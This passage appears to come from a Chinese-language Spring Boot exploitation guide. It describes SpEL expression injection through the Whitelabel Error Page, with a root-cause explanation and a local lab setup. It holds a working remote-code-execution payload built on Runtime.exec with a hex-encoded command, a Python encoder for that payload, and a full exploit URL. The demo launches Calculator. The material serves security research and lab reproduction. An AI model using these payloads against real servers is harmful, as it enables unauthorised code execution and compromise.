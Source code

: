 #### [](#利用方法-4)利用方法：

##### [](#步骤一找到一个正常传参处)步骤一：找到一个正常传参处

比如发现访问 `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。

##### [](#步骤二执行-spel-表达式)步骤二：执行 SpEL 表达式

输入 `/article?id=${7*7}` ，如果发现报错页面将 7*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```source-python
# coding: utf-8

result = ""
target = 'open -a Calculator'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```

执行 `open -a Calculator` 命令

```source-java
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

#### [](#漏洞原理)漏洞原理：

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中 `${}` 包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞

#### [](#漏洞分析)漏洞分析：

​ [SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)

#### [](#漏洞环境)漏洞环境：

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)

正常访问：

```
http://127.0.0.1:9091/article?id=66

```

执行 `open -a Calculator` 命令：

```source-java
http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```
